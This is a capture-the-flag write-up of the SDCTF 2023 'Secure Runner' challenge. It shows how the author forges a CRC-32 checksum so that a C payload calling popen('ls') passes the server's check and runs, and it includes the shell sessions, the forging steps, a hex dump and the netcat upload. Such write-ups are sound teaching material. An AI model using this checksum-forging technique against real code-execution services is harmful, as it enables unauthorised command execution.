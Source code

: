 ```yaml
---
title: "CTF Writeup: “Secure Runner” from SDCTF 2023"
publishDate: 2023-05-08
img: /assets/sdctf-2023/challenge.png
description: While I didn’t have much time to participate in this CTF, I had a goal of solving at least one challenge, a goal that I achieved with a day to spare.
tags: 
    - CTF-writeups
---
```


In CTFs, “Misc.” challenges are some of my favorite to solve (and write): unbounded by the tropes of a defined category, they offer bits and pieces from many cybersecurity topics, and serve as a reflection of the author’s interests at the time. Secure Runner is one of those challenges: I didn’t feel like it quizzed me on any specific cybersecurity knowledge, instead the challenge felt like an exercise in the detective skills one builds up as they solve more CTF challenges.

## The Prompt

> I made a service where people can upload C code to my server and run it! The best part is that it's completely secure! Try running the number guessing game I made :)
> Connect via `cat program.c - | nc secure-runner.sdc.tf 1337`
> [program.c](/assets/sdctf-2023/program.c)

Just from reading the description, this sounds like the world’s easiest RCE: we can upload anything and the computer will just run it no questions asked? Let’s do some testing to actually see if this works.

## First Tests

I made (read: adapted from StackOverflow) a simple payload that uses C's system() function to list the contents of the current directory:

``` c
//inertprogram.c
#include <stdio.h>
#include <stdlib.h>


int main( int argc, char *argv[] )
{

  FILE *fp;
  char path[1035];

  /* Open the command for reading. */
  fp = popen("ls", "r");
  if (fp == NULL) {
    printf("Failed to run command\n" );
    exit(1);
  }

  /* Read the output a line at a time - output it. */
  while (fgets(path, sizeof(path), fp) != NULL) {
    printf("%s", path);
  }

  /* close */
  pclose(fp);

  return 0;
}
```

Let's see what happens when we try to upload it to the server.

``` plaintext
❯ cat inertprogram.c - | nc secure-runner.sdc.tf 1337
ERROR: Refusing to run file, invalid checksum (f2cc55a6)!
```

As we can see, the server refuses to run the file: claiming that the checksum of our file is invalid. In fact, uploading anything other than the provided C file gives us the same error. If we want to run some sort of payload, we need to bypass this checksum. Since the invalid checksum is provided to us, we can figure out what algorithm the server is using.

## Checking the Checksum

The first thing I tried was pasting the checksum into an online [hash analyzer](https://www.tunnelsup.com/hash-analyzer/). While it didn’t end up telling me the specific algorithm, it did provide me with some important information: the checksum is a 32-bit hexadecimal value. Simply searching for “32 bit hexadecimal checksum” gives us a convincing result: [CRC-32](https://en.wikipedia.org/wiki/Cyclic_redundancy_check). Running the algorithm on our file, we can see that the checksum is the same as the one given to us.

``` plaintext
❯ crc32 inertprogram.c
f2cc55a6
```

## The Exploit: Forging a CRC-32 Value

CRC-32 (and all other CRC algorithms), is not a cryptographically secure hashing algorithm: it is designed to detect transmission errors in the network, not create unique fingerprints for files. Because of this, we can easily modify our payload so it shares the same checksum as the original program. I used the Python script from [this blogpost](https://www.nayuki.io/page/forcing-a-files-crc-to-any-value) to do so.

The process is pretty simple, we:

1. Find the checksum we want to forge.
2. Find the byte offset (location in the file) we want to inset our "dummy bytes" at. I chose the end of the file, minus the 4 bytes needed for the patch.
3. Run the script.

In the shell, the process looks like this:

``` plaintext
❯ crc32 program.c
38df65f2
❯ stat -f%z inertprogram.c
428
❯ cp inertprogram.c testprogram.c
❯ python3 forcecrc32.py testprogram.c 424 38df65f2
Original CRC-32: F2CC55A6
Computed and wrote patch
New CRC-32 successfully verified
```

Now we have two different files with matching checksums:

``` plaintext
❯ crc32 program.c
38df65f2
❯ crc32 testprogram.c
38df65f2
```

## Testing Our Exploit

However, when we try to upload our program, we run into a new error:

``` plaintext
❯ cat testprogram.c - | nc secure-runner.sdc.tf 1337
ERROR: Compilation failed!
```

When we compile the program locally, the issue becomes clear: our patch overwrites part of our program, and is interpreted by the compiler, which then throws an error.

``` plaintext
❯ gcc testprogram.c
testprogram.c:26:11: error: source file is not valid UTF-8
  return 0<B8>r<U+0017><9A>
          ^
testprogram.c:26:11: error: expected ';' after return statement
  return 0<B8>r<U+0017><9A>
          ^
          ;
testprogram.c:26:14: error: source file is not valid UTF-8
  return 0<B8>r<U+0017><9A>
                       ^
testprogram.c:26:15: error: expected '}'
  return 0<B8>r<U+0017><9A>
                           ^
testprogram.c:6:1: note: to match this '{'
{
^
4 errors generated.
```

Luckily, this can be fixed by adding a comment ot the end of our program, which can be used as a buffer for our patch.

``` plaintext
❯ xxd inertprogram.c
00000000: 2369 6e63 6c75 6465 203c 7374 6469 6f2e  #include <stdio.
00000010: 683e 0a23 696e 636c 7564 6520 3c73 7464  h>.#include <std
00000020: 6c69 622e 683e 0a0a 0a69 6e74 206d 6169  lib.h>...int mai
00000030: 6e28 2069 6e74 2061 7267 632c 2063 6861  n( int argc, cha
00000040: 7220 2a61 7267 765b 5d20 290a 7b0a 0a20  r *argv[] ).{.. 
00000050: 2046 494c 4520 2a66 703b 0a20 2063 6861   FILE *fp;.  cha
00000060: 7220 7061 7468 5b31 3033 355d 3b0a 0a20  r path[1035];.. 
00000070: 202f 2a20 4f70 656e 2074 6865 2063 6f6d   /* Open the com
00000080: 6d61 6e64 2066 6f72 2072 6561 6469 6e67  mand for reading
00000090: 2e20 2a2f 0a20 2066 7020 3d20 706f 7065  . */.  fp = pope
000000a0: 6e28 226c 7322 2c20 2272 2229 3b0a 2020  n("ls", "r");.  
000000b0: 6966 2028 6670 203d 3d20 4e55 4c4c 2920  if (fp == NULL) 
000000c0: 7b0a 2020 2020 7072 696e 7466 2822 4661  {.    printf("Fa
000000d0: 696c 6564 2074 6f20 7275 6e20 636f 6d6d  iled to run comm
000000e0: 616e 645c 6e22 2029 3b0a 2020 2020 6578  and\n" );.    ex
000000f0: 6974 2831 293b 0a20 207d 0a0a 2020 2f2a  it(1);.  }..  /*
00000100: 2052 6561 6420 7468 6520 6f75 7470 7574   Read the output
00000110: 2061 206c 696e 6520 6174 2061 2074 696d   a line at a tim
00000120: 6520 2d20 6f75 7470 7574 2069 742e 202a  e - output it. *
00000130: 2f0a 2020 7768 696c 6520 2866 6765 7473  /.  while (fgets
00000140: 2870 6174 682c 2073 697a 656f 6628 7061  (path, sizeof(pa
00000150: 7468 292c 2066 7029 2021 3d20 4e55 4c4c  th), fp) != NULL
00000160: 2920 7b0a 2020 2020 7072 696e 7466 2822  ) {.    printf("
00000170: 2573 222c 2070 6174 6829 3b0a 2020 7d0a  %s", path);.  }.
00000180: 0a20 202f 2a20 636c 6f73 6520 2a2f 0a20  .  /* close */. 
00000190: 2070 636c 6f73 6528 6670 293b 0a0a 2020   pclose(fp);..  
000001a0: 7265 7475 726e 2030 3b0a 7d0a 2f2f 3030  return 0;.}.//00
000001b0: 3030 3030 3030 3030 3030 3030 3030 3030  0000000000000000 <--- Part of our comment
000001c0: 0a                                       .
❯ cp inertprogram.c testprogram.c
❯ python3 forcecrc32.py testprogram.c 432 38df65f2
Original CRC-32: F329EFA1
Computed and wrote patch
New CRC-32 successfully verified
```

## It Works!

After applying the new patch, we can upload our code and see the contents of the directory.

``` plaintext
❯ cat testprogram.c - | nc secure-runner.sdc.tf 1337
build
flag.txt
node_modules
package.json
```

Actually getting the flag is now just a simple question of reading `flag.txt` to stdout.
